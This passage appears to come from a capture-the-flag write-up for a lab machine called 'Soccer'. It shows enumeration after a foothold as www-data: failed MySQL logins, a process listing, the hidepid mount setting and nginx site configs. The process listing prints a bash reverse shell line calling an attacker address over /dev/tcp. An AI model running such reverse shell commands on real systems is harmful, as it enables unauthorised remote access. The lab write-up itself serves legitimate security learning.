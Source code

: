 

    www-data@soccer:/$ mysql -p 3306
    Enter password: 
    ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)
    www-data@soccer:/$ mysql -p 33060
    Enter password: 
    ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)



It's hard to verify any of this as www-data can only read it's own
processes:



    www-data@soccer:/$ ps auxww
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    www-data    1089  0.0  0.1  54080  6176 ?        S    17:28   0:03 nginx: worker process
    www-data    1090  0.0  0.1  54080  6492 ?        S    17:28   0:04 nginx: worker process
    www-data    2385  0.0  0.0   2608   532 ?        S    18:50   0:00 sh -c bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"
    www-data    2386  0.0  0.0   3976  2844 ?        S    18:50   0:00 bash -c bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    www-data    2387  0.0  0.0   4108  3484 ?        S    18:50   0:00 bash -i
    www-data    2389  0.0  0.0   2636  2000 ?        S    18:50   0:00 script /dev/null -c bash
    www-data    2390  0.0  0.0   2608   596 pts/1    Ss   18:50   0:00 sh -c bash
    www-data    2391  0.0  0.0   4108  3596 pts/1    S    18:50   0:00 bash
    www-data    2404  0.0  0.0   5892  2904 pts/1    R+   18:51   0:00 ps auxww



That is because `/proc` is mounted with `hidepid=2`:



    www-data@soccer:/$ mount | grep ^proc
    proc on /proc type proc (rw,nodev,relatime,hidepid=2)



#### nginx

There's nothing else of interest in the system root or `/opt` or `/srv`.
I'll look at how nginx is configured. There are two site files in
`/etc/nginx/sites-enabled`:



    www-data@soccer:/etc/nginx/sites-enabled$ ls
    default  soc-player.htb



`default` set up the redirect to `soccer.htb`:



    server {
            listen 80;
            listen [::]:80;
            server_name 0.0.0.0;
            return 301 http://soccer.htb$request_uri;
    }
